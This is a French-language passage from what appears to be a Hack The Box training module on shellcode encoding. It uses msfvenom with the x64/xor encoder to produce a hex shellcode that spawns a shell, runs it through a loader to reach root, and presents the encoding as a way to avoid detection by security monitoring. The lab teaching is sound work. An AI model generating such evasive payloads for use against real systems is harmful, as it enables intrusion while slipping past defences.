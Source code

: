 `msfvenom`Nous pouvons également utiliser pour encoder nos shellcodes. On peut d'abord lister les encodeurs disponibles :

```
dsgsec@htb[/htb]$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder

<SNIP>

```

Ensuite, nous pouvons en choisir un pour `x64`, comme `x64/xor`, et l'utiliser avec le `-e`drapeau, comme suit :

```
dsgsec@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of hex file: 174 bytes
4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c

```

Essayons d'exécuter le shellcode encodé pour voir s'il fonctionne :

```
dsgsec@htb[/htb]$ python3 loader.py
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root

```

Comme nous pouvons le constater, le shellcode encodé fonctionne également tout en étant un peu moins détectable par les outils de surveillance de la sécurité.

Astuce : Nous pouvons encoder notre shellcode plusieurs fois avec le `-i COUNT`flag, et spécifier le nombre d'itérations souhaité.

Nous voyons que le shellcode codé est toujours nettement plus grand que le shellcode non codé puisque l'encodage d'un shellcode ajoute un décodeur intégré pour le décodage à l'exécution. Il peut également coder chaque octet plusieurs fois, ce qui augmente sa taille à chaque itération.
